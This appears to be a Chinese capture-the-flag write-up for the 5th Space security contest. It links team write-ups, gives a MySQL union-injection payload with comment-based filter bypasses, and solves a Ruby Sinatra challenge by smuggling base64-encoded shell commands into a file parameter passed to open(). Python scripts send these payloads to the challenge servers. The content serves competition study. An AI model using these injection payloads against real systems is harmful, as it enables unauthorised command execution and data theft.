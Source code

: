 [第三届第五空间网络安全大赛WP(部分)](https://mp.weixin.qq.com/s/POoB_f4FyBmmjZTd07c_hw)
https://mp.weixin.qq.com/s/pkaHI8I5Fe6JtpHcGKYN_g
[第五空间网络安全大赛 WHT WRITEUP](https://mp.weixin.qq.com/s/pkaHI8I5Fe6JtpHcGKYN_g)
[第五空间WP By Nu1L Team](https://mp.weixin.qq.com/s/BIa3l9tYP02fpoXk7kPhug)
第五空间 https://wp.n03tack.top/posts/56002/

## yet_another_mysql_injection

```
1'union/**/select/**/mid(`11`,65,217)/**/from(select/**/1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17/**/union/**/select/**/*/**/from/**/performance_schema.threads/**/where/**/name/**/like'%connection%'/**/limit/**/1,1)t#
```




## PNG 图片转换器

题目

```ruby
require 'sinatra'
require 'digest'
require 'base64'

get '/' do
  open("./view/index.html", 'r').read()
end

get '/upload' do
  open("./view/upload.html", 'r').read()
end

post '/upload' do
  unless params[:file] && params[:file][:tempfile] && params[:file][:filename] && params[:file][:filename].split('.')[-1] == 'png'
    return "<script>alert('error');location.href='/upload';</script>"
  end
  begin
    filename = Digest::MD5.hexdigest(Time.now.to_i.to_s + params[:file][:filename]) + '.png'
    open(filename, 'wb') { |f|
      f.write open(params[:file][:tempfile],'r').read()
    }
    "Upload success, file stored at #{filename}"
  rescue
    'something wrong'
  end

end

get '/convert' do
  open("./view/convert.html", 'r').read()
end

post '/convert' do
  begin
    unless params['file']
      return "<script>alert('error');location.href='/convert';</script>"
    end

    file = params['file']
    unless file.index('..') == nil && file.index('/') == nil && file =~ /^(.+)\.png$/
      return "<script>alert('dont hack me');</script>"
    end
    res = open(file, 'r').read()
    headers 'Content-Type' => "text/html; charset=utf-8"
    "var img = document.createElement(\"img\");\nimg.src= \"data:image/png;base64," + Base64.encode64(res).gsub(/\s*/, '') + "\";\n"
  rescue
    'something wrong'
  end
end
```

`res = open(file, 'r').read()`

这里使用了 open()函数来打开可控制 file 参数传入的文件名。而 ruby 中的 open()函数是借用系统命令来打开文件，且没用过滤 shell 字符，导致在用户控制文件名的情况下，将可以注入任意命令。

源码中会将 open()执行过后的结果 base64 编码后返回，加上 file 参数处有些过滤和必须以.png 结尾的限制；即可构造

`file=|whoami > test.png`

接下来绕过..、/即可，直接利用 base64 编码绕过

`file=|echo "bHMgLWxoYSAv"|base64 -d|bash > test.png`

```python
from base64 import b64decode, b64encode
from requests_html import HTMLSession

url = 'http://1116-44e7e228-9736-404c.nss.ctfer.vip:9080/convert'

s = HTMLSession()
cmd = 'find / -name "flag*"'
cmd = b64encode(cmd.encode()).decode()

d = {"file": f"""|echo "{cmd}"|base64 -d|bash > test.png"""}
s.post(url, d)

res = s.post(url, {"file": "test.png"})
a,b = res.text.split('base64,')
print(b64decode(b.encode()).decode())
```

payload2, base64绕过
```python
import requests
url  = "http://114.115.128.215:32770"
print(hex(ord('.')),hex(ord("/")))
res = requests.post(f"{url}/convert",data="file=|echo Y2F0IC9GTEE5X0t5d1hBdjc4TGJvcGJwQkR1V3Nt | base64 -d | sh;.png".encode("utf-8"),headers={"Content-Type":"application/x-www-form-urlencoded"},allow_redirects=False)
print(res.content)
```